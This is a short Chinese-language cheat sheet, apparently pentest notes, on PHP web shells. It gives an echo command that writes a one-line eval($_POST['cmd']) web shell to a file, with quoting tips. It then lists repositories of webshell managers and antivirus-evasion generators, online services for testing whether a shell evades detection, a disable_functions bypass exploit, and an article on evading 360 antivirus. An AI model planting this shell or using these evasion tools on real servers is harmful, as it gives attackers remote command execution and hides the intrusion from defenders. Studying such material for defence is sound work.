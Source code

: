 # 01、echo写入PHP一句话木马
```
echo "<?php eval(\$_POST['cmd']);?>">1.php
```
1.php内容如下
```
<?php eval($_POST['cmd']);?>
```
#### 注意1
经过在burp下测试及bash下测试发现，执行如下命令后
```
echo "<?php eval($_POST['cmd']);?>">1.php
```
1.php的内容如下
```
<?php eval(['cmd']);?>
```
#### 注意2
windows下echo "bbb">3.txt时，会将双引号带入文件内容，linux下echo "bbb">3.txt时，不会将双引号带入文件内容。

# 02、Webshell免杀
```
https://github.com/AntSwordProject/antSword
https://github.com/rebeyond/Behinder
https://github.com/BeichenDream/Godzilla
https://github.com/shack2/skyscorpion
https://github.com/Chora10/Cknife

https://github.com/Tas9er/ByPassBehinder4J
https://github.com/cseroad/Webshell_Generate
https://github.com/G0mini/Bypass
http://bypass.tidesec.com/web/
https://github.com/czz1233/GBByPass

https://github.com/AabyssZG/WebShell-Bypass-Guide/tree/main
```
webshell免杀效果检测
```
https://n.shellpub.com/
https://ti.aliyun.com/#/webshell
https://sandbox.dbappsecurity.com.cn/
```

# 03、Webshell绕过Disable_Functions执行命令
```
https://github.com/mm0r1/exploits/tree/master/php-filter-bypass
```

# 04、Webshell下绕过360执行命令
```
Webshell绕过360主动防御执行命令
https://mp.weixin.qq.com/s/OGwo1zoN1LS3aYalZ_PePw
```